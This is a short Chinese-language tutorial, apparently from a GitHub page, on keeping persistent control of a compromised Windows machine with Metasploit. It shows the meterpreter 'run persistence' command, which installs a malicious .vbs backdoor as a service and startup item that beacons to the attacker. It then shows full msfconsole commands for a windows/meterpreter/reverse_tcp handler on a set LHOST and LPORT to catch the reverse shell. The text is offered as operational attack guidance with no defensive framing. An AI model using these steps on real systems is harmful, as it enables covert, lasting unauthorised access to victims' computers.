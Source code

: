 # Metasploit访问控制的持久化

工具：Metasploit

为了实现这一点，可以选择在目标计算机上添加一个新的用户，也可以选择使用MSF中persistence模块。

运行persistence模块可以通过在目标计算机上安装一个永久性的后门来实现访问控制的持久化。这样，即使有一天目标计算机修补了漏洞，我们仍然可以通过这个连接来实现对目标计算机的控制。

这里，我们假设经过了一系列的渗透拿到了system权限的meterpreter，我们在meterpreter命令行执行如下命令：

```
run persistence
```

运行persistence模块会向目标计算机上传一个.vbs类型的恶意脚本文件，并在目标计算机上执行这个恶意脚本文件。这个脚本一旦在目标计算机上运行，每隔几秒钟就会主动连接攻击者的计算机。这个恶意脚本文件会被当做一个系统服务安装在目标计算机系统中，同时，会被添加到开机启动项中，因此，无论目标计算机重启多少次，该恶意服务都可以运行。除非卸载该服务或手动删除文件，否则恶意服务一直存在。

这里，我们重新开启一个MSF来验证：

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

此处需要注意的是：我们设置攻击载荷和LPORT选项必须与运行persistence模块时设置的攻击载荷和LPORT选项相同。

发出攻击命令exploit后，exploit/multi/handler开始等待从目标系统上发回来的连接。一旦传入的连接被检测到，控制端就会切换到Meterpreter命令行。